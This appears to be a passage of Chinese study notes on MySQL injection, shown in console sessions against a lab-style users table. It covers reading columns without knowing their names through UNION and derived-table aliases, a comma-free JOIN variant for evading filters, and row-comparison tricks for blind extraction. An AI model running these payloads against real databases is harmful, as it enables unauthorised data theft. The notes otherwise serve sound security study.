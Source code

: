 ```mysql
|  1 | 2        | 3          |
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
+----+----------+------------+
3 rows in set (0.00 sec)
#对比可以发现使用union时，列名被替换为前面的select的列名了，为1，2，3。
mysql> select a.1 from (select 1,2,3 union select * from users) a;
+---+
| 1 |
+---+
| 1 |
| 1 |
| 2 |
+---+
3 rows in set (0.00 sec)
#将前面生成的表重命名为a，再使用select a.1，查询第一列的值
#可以看到，使用union查询，在不知道列名的情况下，依然能够将列注入出来，通过1，2，3选择第几列
```

```mysql
select c from (select 1 as a, 1 as b, 1 as c union select * from test)x limit 1 offset 1;
select a.`3` from(select 1,2,3 union select * from admin)a limit 1,1;

//无逗号，有join版本
select a from (select * from (select 1 `a`)m join (select 2 `b`)n join (select 3 `c`)t where 0 union select * from test)x;
```

### 比较法

```mysql
mysql> select 'b' < 'azzzzz';
+----------------+
| 'b' < 'azzzzz' |
+----------------+
|              0 |
+----------------+
1 row in set (0.00 sec)

mysql> select 'ab' < 'azzzzz'
    -> ;
+-----------------+
| 'ab' < 'azzzzz' |
+-----------------+
|               1 |
+-----------------+
1 row in set (0.00 sec)
#mysql比较，从第一个字符还是比较ascii的大小，一次往后
#并且多列的比较时从第一列的第一位开始的
mysql> select (select 1,'Dumb','a')> (select * from users limit 1);
+------------------------------------------------------+
| (select 1,'Dumb','a')> (select * from users limit 1) |
+------------------------------------------------------+
|                                                    0 |
+------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select (select 1,'Dumb','b') > (select * from users limit 1);
+-------------------------------------------------------+
| (select 1,'Dumb','b') > (select * from users limit 1) |
+-------------------------------------------------------+
|                                                     0 |
+-------------------------------------------------------+
1 row in set (0.00 sec)
```